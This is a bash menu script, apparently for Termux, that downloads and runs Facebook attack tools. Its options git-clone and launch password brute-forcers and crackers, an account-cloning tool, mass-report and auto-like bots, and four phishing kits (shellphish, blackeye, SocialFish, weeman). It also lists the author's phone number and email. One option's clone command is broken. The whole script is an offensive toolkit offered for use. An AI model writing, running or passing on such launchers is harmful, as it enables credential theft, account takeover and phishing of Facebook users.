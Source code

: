 # tool-fb
#usr/bin/bash clear bi='\033[34;1m' #biru i='\033[32;1m' #ijo pur='\033[35;1m' #purple cy='\033[36;1m' #cyan me='\033[31;1m' #merah pu='\033[37;1m' #putih ku='\033[33;1m' #kuning # Jangan Recode Ya gayn echo echo echo echo $i"["$bi"•"$i"]"$me"───────────────────────────────────────────"$i"["$bi"•"$i"]" echo $i" |"$cy"     TRẦN TUẤN TERMUX "$i"         |" echo $i" |"$me"─────────────────────────────────────────────"$i"|" echo $i" |"$pu" AUTHOR :"$ku" TUẤN  [FR13ND8]"$i"          |" echo $i" |"$pu" FACEBOOK :"$ku" Trần Tuấn"$i"                   |" echo $i" |"$pu" THANKS TO :"$cy"~ [MR.P3RC1L] [MR.S∆MAx] [MR.B]"$i"  |" echo $i" |"$cy"            ~ [cyber] [%MR.S%] [AldykaPrygh]"$i" |" echo $i" |"$pu" Contack WhatsApp :"$ku" 0383101026"$i"             |" echo $i" |"$pu" Contack Gmail :"$ku" ttrantuan2005@gmail.com"$i"      |" echo $i"["$bi"•"$i"]"$me"───────────────────────────────────────────"$i"["$bi"•"$i"]" echo echo $i"────────────────────────────────    ─────" echo $i"|"$me" 1"$i" |"$cy" BRUTEFORCE FB PHP        "$i"|"$i"    |"$cy" B"$i" |" echo $i"|"$me" 2"$i" |"$cy" BRUTEFORCE FB BR1G4D3    "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me" 3"$i" |"$cy" BRUTEFORCE FB iqbalz     "$i"|"$i"    |"$cy" N"$i" |" echo $i"|"$me" 4"$i" |"$cy" BRUTEFORCE FB MBF        "$i"|"$i"    |"$cy" G"$i" |" echo $i"|"$me" 5"$i" |"$cy" FACEBRUTE N1ght420       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me" 6"$i" |"$cy" BRUTEFORCE FB ( root )   "$i"|"$i"    |"$cy" E"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" L"$i" |" echo $i"|"$me" 7"$i" |"$cy" YAHOO CLONING FACEBOOK   "$i"|"$i"    ─────" echo $i"|"$me" 8"$i" |"$cy" PROFILE GUARD FACEBOOK   "$i"|"$i"    |"$cy" F"$i" |" echo $i"|"$me" 9"$i" |"$cy" REPORT FACEBOOK WORK     "$i"|"$i"    |"$cy" A"$i" |" echo $i"|"$me"10"$i" |"$cy" AUTO REACTION FACEBOOK   "$i"|"$i"    |"$cy" C"$i" |" echo $i"|"$me"11"$i" |"$cy" INFORMATION FACEBOOK     "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me"12"$i" |"$cy" BOT KOMEN FACEBOOK       "$i"|"$i"    |"$cy" B"$i" |" echo $i"|"$me"13"$i" |"$cy" AUTOLIKE FACEBOOK        "$i"|"$i"    |"$cy" O"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" O"$i" |" echo $i"|"$me"14"$i" |"$cy" PHISING FACEBOOK 1       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me"15"$i" |"$cy" PHISING FACEBOOK 2       "$i"|"$i"    ─────" echo $i"|"$me"16"$i" |"$cy" PHISING FACEBOOK 3       "$i"|"$i"    |"$cy" K"$i" |" echo $i"|"$me"17"$i" |"$cy" PHISING FACEBOOK 4       "$i"|"$i"    |"$cy" E"$i" |" echo $i"────────────────────────────────"$i"    |"$cy" R"$i" |" echo $i"|"$me"18"$i" |"$cy" INSTALL BAHAN DULU COEG  "$i"|"$i"    |"$cy" E"$i" |" echo $i"|"$me"19"$i" |"$cy" KELUAR/EXIT PROGRAM      "$i"|"$i"    |"$cy" N"$i" |" echo $i"────────────────────────────────    ─────" echo echo $me"┌==="$bi"["$i"FR13ND8"$bi"]"$me"======"$bi"["$i""Pilih Nomornya""$bi"]" echo $me"¦" read -p"└──# " pil  if [ $pil = 1 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/fbbrute cd fbbrute php fb.php fi  if [ $pil = 2 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/Fb-Cracker-v.3 cd Fb-Cracker-v.3 python2 crack.py fi  if [ $pil = 3 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/IqbalzNoobs/fb-brute cd fb-brute python2 brute.py fi  if [ $pil = 4 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/mbf cd mbf python2 MBF.py fi  if [ $pil = 5 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/N1ght420/FaceBrute cd FaceBrute python fb.py fi  if [ $pil = 6 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/facebash.git cd facebash bash facebash.sh fi  if [ $pil = 7 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/EmailVuln cd EmailVuln python2 vuln.py fi  if [ $pil = 8 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/ProfileGuardFb cd ProfileGuardFb php guard.php fi  if [ $pil = 9 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/IlayTamvan/Report cd Report unzip Report.zip python2 Report.py fi  if [ $pil = 10 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/AMVengeance/FB-React cd FB-React ./start fi  if [ $pil = 11 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/InfoFB cd InfoFB pip2 install -r requirements.txt python2 info.py fi  if [ $pil = 12 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 pip2 install mechanize git clone https://github.com/Senitopeng/Botkomena.git cd Botkomena python2 botkomena.py fi  if [ $pil = 13 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/autolike cd autolike php autolike.php fi  if [ $pil = 14 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/shellphish.git cd shellphish bash shellphish.sh fi  if [ $pil = 15 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/blackeye.git cd blackeye bash blackeye.sh fi  if [ $pil = 16 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/UndeadSec/SocialFish.git cd SocialFish chmod +x * pip2 install -r requirements.txt python2 SocialFish.py fi  if [ $pil = 17 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 https://github.com/evait-security/weeman.git chmod +x * python2 weeman.py fi  if [ $pil = 18 ] then clear apt update &amp;&amp; apt upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests pkg install git pip2 install mechanize pkg install curl pkg install ruby pkg install gem gem install lolcat pkg install git pkg install php pkg install ruby cowsay toilet figlet pkg install neofetch pkg install nano figlet -f slant " S U K S E S "|lolcat fi  if [ $pil = 19 ] then clear figlet -f slant "E X I T"|lolcat sleep 2 echo $cy"Tool By Trần Tuấn" sleep 2 echo $i"Tuấn Trần" sleep 2 echo $ku"WhatsApp :"$i" 085835787069" echo $ku"Facebook :"$i" Riski Darmawan" sleep 2 echo $pur">> Hẹn Gặp Lại BYE &lt;&lt;" exit
